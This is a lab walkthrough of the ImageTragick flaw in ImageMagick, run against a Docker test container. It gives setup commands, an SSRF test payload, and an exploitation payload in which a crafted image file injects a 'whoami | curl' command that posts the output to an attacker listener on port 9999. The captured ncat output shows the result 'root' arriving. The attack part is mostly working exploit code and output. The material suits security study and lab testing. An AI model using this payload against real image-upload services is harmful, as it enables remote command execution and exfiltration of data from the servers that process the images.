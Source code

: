 #### 3.1. About

Repo: `https://github.com/ImageTragick/PoCs`

Setup:
```
# docker pull craighurley/docker-imagetragick
# docker run -d --name imagetragick -p 8080:8080 craighurley/docker-imagetragick
```


#### 3.2. Testing for vulnerability

Test file - original:
```
# md5 111.jpg
MD5 (111.jpg) = 3e5eb1ca377db6054cf921e322e0468e
# http -f POST http://172.16.201.160:8080/ file@/tmp/111.jpg
```

Test file - uploaded:
```
[root@161c0e047c5f app]# md5sum */*
b8f66b55f5b4abdb89019e60ab26bd49  converted/111.jpg.jpg
3e5eb1ca377db6054cf921e322e0468e  uploads/111.jpg
```
Note: uploaded image will be converted to JPG file


Test vulnerability with HTTP request to attacker's box:
```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(http://172.16.201.160:9999)'
pop graphic-context
EOF
# http -f POST http://172.16.201.160:8080/ file@/tmp/payload.jpg >/dev/null
```

Listener:
```
# python -m SimpleHTTPServer 9999
172.17.0.3 - - [12/Nov/2018 10:36:52] "GET / HTTP/1.0" 200 -
```


#### 3.3. Exploitation

Payload:
```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|whoami|curl -F :data=@- http://172.16.201.160:9999")'
pop graphic-context
EOF
# http -f POST http://172.16.201.160:8080/ file@/tmp/payload.jpg >/dev/null
```

Listener:
```
# ncat -nlvp 9999
Ncat: Version 7.70SVN ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.17.0.3.
Ncat: Connection from 172.17.0.3:44320.
POST / HTTP/1.1
User-Agent: curl/7.29.0
Host: 172.16.201.160:9999
Accept: */*
Content-Length: 199
Expect: 100-continue
Content-Type: multipart/form-data; boundary=----------------------------0cea23a18a03

------------------------------0cea23a18a03
Content-Disposition: form-data; name=":data"; filename="-"
Content-Type: application/octet-stream

root

------------------------------0cea23a18a03--
```
